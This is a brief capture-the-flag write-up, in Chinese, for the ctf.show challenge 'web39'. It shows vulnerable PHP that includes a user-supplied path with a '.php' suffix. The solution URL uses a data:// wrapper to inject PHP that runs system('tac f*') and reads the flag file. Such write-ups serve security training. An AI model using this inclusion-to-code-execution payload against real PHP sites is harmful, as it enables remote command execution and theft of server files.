

# web39

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```

include的后缀，不影响直接传入带system的payload

```plaintext
https://1de3a2ef-ca0c-486d-bc7d-14bb5f5dcf01.challenge.ctf.show/?c=data://text/plain,<?php system("tac f*"); ?>
```


